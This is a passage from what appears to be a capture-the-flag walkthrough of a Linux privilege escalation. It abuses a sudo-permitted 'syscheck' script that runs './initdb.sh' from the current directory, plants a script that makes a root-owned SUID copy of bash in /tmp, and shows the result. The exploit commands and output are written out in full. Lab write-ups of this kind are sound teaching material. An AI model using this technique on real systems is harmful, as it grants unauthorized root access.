 #### initdb.sh

It doesn’t actually matter, but I can search the disk for a file named `initdb.sh`:

```

dvir@headless:~$ find / -name 'initdb.sh' 2>/dev/null

```

It finds nothing. It could exist in a directory that dvir doesn’t have access to.

But again, that doesn’t matter. It’s called as `./initdb.sh`, which means it will look for that file in whatever directory the caller is in.

### Exploit

I’ll write a simple Bash script that will copy `bash` to `/tmp/0xdf`, set the owner of that file to root, and then set it as SetUID/SetGID (which means that it will run as the owner, not the user running it). This effectively gives me a copy of `bash` that runs as root:

```

dvir@headless:/dev/shm$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 6777 /tmp/0xdf' | tee initdb.sh
#!/bin/bash

cp /bin/bash /tmp/0xdf
chown root:root /tmp/0xdf
chmod 6777 /tmp/0xdf
dvir@headless:/dev/shm$ chmod +x initdb.sh

```

It’s also important to make the script executable.

I’ll run `sudo syscheck`:

```

dvir@headless:/dev/shm$ sudo syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.8G
System load average:  0.04, 0.05, 0.01
Database service is not running. Starting it...

```

Now `/tmp/0xdf` exists:

```

dvir@headless:/dev/shm$ ls -l /tmp/0xdf 
-rwsrwsrwx 1 root root 1265648 Jul 11 23:16 /tmp/0xdf

```
